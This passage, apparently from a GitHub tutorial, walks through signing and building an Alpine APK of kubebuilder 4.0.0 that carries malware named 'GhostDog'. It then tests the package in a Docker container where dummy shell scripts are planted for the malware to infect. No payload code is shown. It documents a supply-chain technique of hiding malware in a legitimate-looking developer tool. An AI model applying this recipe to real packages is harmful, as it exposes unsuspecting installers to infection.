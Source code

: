 3. **Generate the Signing Key**  
   Use Chainguard's Melange to generate a signing key. Make sure you generate in the same folder as the updated melange file (```./kubebuilder_ghostdog/kubebuilder_4.0.0-ghostdog.yaml```):
   ```bash
   docker run --rm -v "${PWD}":/work cgr.dev/chainguard/melange keygen
   ```

4. **Build the APK**  
   Build the APK using Melange, we'll just do it for x86_64 for now:
   ```bash
   docker run --privileged --rm -v "${PWD}":/work cgr.dev/chainguard/melange build kubebuilder_4.0.0-ghostdog.yaml --arch x86_64 --signing-key melange.rsa
   ```
   This should take a few minutes.
   You'll see a new `packages/x86_64/` folder created with the following contents:
   ```bash
   $ ls -lash ./packages/x86_64/
    total 4.0M
    4.0K -rw-r--r-- 1 root root  817 Aug 14 15:42 APKINDEX.json
    4.0K -rw-r--r-- 1 root root  935 Aug 14 15:42 APKINDEX.tar.gz
    4.0M -rw-r--r-- 1 root root 4.0M Aug 14 15:42 kubebuilder-4.0.0-r0.apk
   ```

## Testing the APK

1. **Test the APK in a Docker Container**  
    We'll test both the APK and the functionality of the malware. 
    For APK testing, we can do a simple smoke test such as checking the version. 
    ```yaml
    # Use the Alpine base image
    FROM alpine:latest

    # Copy your APK to the container
    COPY packages/x86_64/kubebuilder-4.0.0-r0.apk /tmp/

    # Install dependencies if needed (replace with actual dependencies)
    RUN apk update && apk add --no-cache 

    # Install the APK
    RUN apk add --allow-untrusted /tmp/kubebuilder-4.0.0-r0.apk

    # Create some dummy shell script in /root for GhostDog to infect
    RUN echo -e '#!/bin/sh\necho "Script 1"' > /root/script1.sh && \
        chmod +x /root/script1.sh
